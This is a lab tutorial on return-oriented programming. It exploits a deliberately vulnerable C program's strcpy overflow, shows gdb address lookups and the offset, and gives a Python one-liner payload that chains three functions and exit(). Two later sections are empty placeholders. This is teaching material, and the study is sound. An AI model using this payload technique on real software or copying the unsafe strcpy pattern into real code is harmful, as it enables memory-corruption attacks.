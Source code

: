# ROP Chaining: Return Oriented Programming

The purpose of this lab is to familiarize with a binary exploitation technique called Return Oriented Programming \(ROP\) and ROP chains. The technique is used to bypass Data Execution Protection \(DEP\) and Address Space Layout Randomization \(ASLR\) protections.

{% hint style="info" %}
Work In Progress
{% endhint %}

## 1st ROP Chain

### Vulnerable Code

We wil exploit the following code in a program `rop1a` that is intentionally vulnerable with a classic stack-based overflow:

{% tabs %}
{% tab title="rop1a.c" %}
```c
#include <stdio.h>
#include <string.h>

void rop1() 
{
    printf("ROP 1!\n");
}

void rop2() {
    printf("ROP 2!\n");
}

void rop3() {
    printf("ROP 3!\n");
}

void vulnerable(char* string) 
{
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) 
{
    vulnerable(argv[1]);
    return 0;
}
```
{% endtab %}
{% endtabs %}

The above program start executing at `main()`, which calls `vulnerable()` and the program eventually returns.

### Objective

We're going to exploit the classic stack-based overflow vulnerability in the function `vulnerable` in the above code to trigger the functions `rop1()`, `rop2()` and `rop3()` sequentially, that are otherwise not called during the vulnerable program's runtime. After `rop3()` completes, we will make the program call the libc function `exit()`, so that it closes gracefully rather than with a crash.

{% hint style="info" %}
The sequence of called functions `rop1() --> rop2() --> rop3() --> exit()` form a chain, so naturally, this is where the term ROP chains comes from.
{% endhint %}

### Stack Layout

The key thing to understand with ROP chaining is the stack layout. In our case, we need the payload, that we send to the vulnerable program, to overflow the stack in such a way, that the exploited program calls our wanted functions in exactly this order:

1. `rop1()`
2. `rop2()`
3. `rop3()`
4. `exit()`

In other words, we need to ensure that the stack in the vulnerable program, when the vulnerable function is exploited, is organized like this:

![](../../../.gitbook/assets/image%20%28911%29.png)

If we think about the above graphic, we will realize that once the stack is overflowed, the following will happen:

1. the vulnerable function will return/jump to the `rop1()`;
2. once `rop1()` completes, it will execute the `ret` instruction, which will pop the `rop2()` function address off the stack and jump to it;
3. once `rop2()` completes, it will execute the `ret` instruction, which will pop the `rop3()` function address off the stack and jump to it;
4. once `rop3()` completes, it will execute the `ret` instruction, which will pop the `exit()` function address off the stack and jump to it;

We will later confirm this with gdb.

### Payload

Based on the above graphic, our payload should look something like this:

```text
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

or... using the same colours as those seen in the above stack layout for easier cross-reference:

![](../../../.gitbook/assets/image%20%28908%29.png)

Let's find out the values we need to populate our payload with.

First of, compile our vulnerable program `rop1a`:

```text
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with gdb and put a breakpoint on `main()` and continue execution:

```text
gdb rop1a
b main
c
```

Now, let's find out addresses for functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```

![](../../../.gitbook/assets/image%20%28917%29.png)

Our payload now looks like this:

![](../../../.gitbook/assets/image%20%28920%29.png)

The last thing we need to know is how many AAAAs we need to send in before we can take over the EIP and overwrite the return address and point it to the `rop1`.

Below screenshot indicates that the offset of interest is 112 \(0x70\), or in other words, we need to send 112 A characters to smash the stack:

![](../../../.gitbook/assets/image%20%28919%29.png)

See below notes on how to find the offset at which we can overwrite the return address:

{% page-ref page="stack-based-buffer-overflow.md" %}

Knowing the offset, we can now now visualize the full payload like this:

![](../../../.gitbook/assets/image%20%28907%29.png)

We can now construct the full payload in python send it to the vulnerable program like this:

```python
./rop1a "$(python -c 'print "A"*108 + "BBBB" + "\xa9\x61\x55\x56" + "\xd4\x61\x55\x56" + "\xff\x61\x55\x56" +  "\x50\x29\xe0\xf7" ')"
```

If we execute it, we can see that our `rop1`, `rop2` and `rop3` functions are called successfully as they execute the `printf()` statements inside them:

![](../../../.gitbook/assets/rop-chain-exploit.gif)

Note how the program did not crash. As a reminder - this is because the rop3 called the exit upon return.

### Inspecting the Stack

## 2nd ROP Chain

## References

{% embed url="https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html" %}

{% embed url="https://www.ret2rop.com/2018/08/return-to-libc.html" %}

{% embed url="https://medium.com/@codingkarma/rop-the-easy-way-7a3b28070bbf" %}

{% embed url="https://www.fuzzysecurity.com/tutorials/expDev/7.html" %}

{% embed url="https://bordplate.no/blog/en/post/interactive-rop-tutorial/" %}

{% embed url="https://ctf101.org/binary-exploitation/return-oriented-programming/" %}

{% embed url="https://tc.gts3.org/cs6265/2019/tut/tut06-01-rop.html" %}



